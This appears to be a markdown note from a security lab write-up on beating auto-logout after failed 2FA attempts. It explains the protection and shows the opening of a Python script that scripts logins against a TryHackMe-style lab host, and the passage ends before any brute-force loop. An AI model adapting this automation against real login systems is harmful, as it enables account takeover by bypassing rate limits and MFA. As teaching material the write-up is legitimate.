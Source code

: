 # Beating the auto-logout Feature
In some applications, when you failed the 2FA challenge, it can bring you back to the first phase where you put your credentials.
This mechanism is used to prevent bruteforcing for exemple.
## How it work
- **Session invalidation**: The application might invalidate the user's session as a security measure, forcing the user to start the authentification process from scratch.
- **Rate-limiting and lockout policies**: To prevent attackers from repeatedly attempting to bypass 2FA, the application may have rate-limiting or lockout mechanisms after a set number or failed attempts.
- **Security-driven redirection**: When the application is designed to redirect users back to the login page after mulitple failed attempt.
## Automation is the key
The automation make life easier when attacking this type of proteciton because:
- **Speed**: Logging back manually every time is slow and tendious.
- **Consistency**: Automation avoids mistakes that might happen if you're doing the same repetitive actions.
- **Recovering from logouts**: If the application logs you out after a few failed attemps, the script can automatically log back.
- **Customization**: You can customize your scripts to test specific scenarios, such as using different IP addresses or user agents.
## Exploitation
Here is an exemple of code:
```python
import requests

# Define the URLs for the login, 2FA process, and dashboard
login_url = 'http://mfa.thm/labs/third/'
otp_url = 'http://mfa.thm/labs/third/mfa'
dashboard_url = 'http://mfa.thm/labs/third/dashboard'

# Define login credentials
credentials = {
    'email': 'thm@mail.thm',
    'password': 'test123'
}

# Define the headers to mimic a real browser
headers = {
    'User-Agent': 'Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Origin': 'http://mfa.thm',
    'Connection': 'close',
    'Referer': 'http://mfa.thm/labs/third/mfa',
    'Upgrade-Insecure-Requests': '1'
}

# Function to check if the response contains the login page
def is_login_successful(response):
    return "User Verification" in response.text and response.status_code == 200

# Function to handle the login process
def login(session):
    response = session.post(login_url, data=credentials, headers=headers)
    return response
```
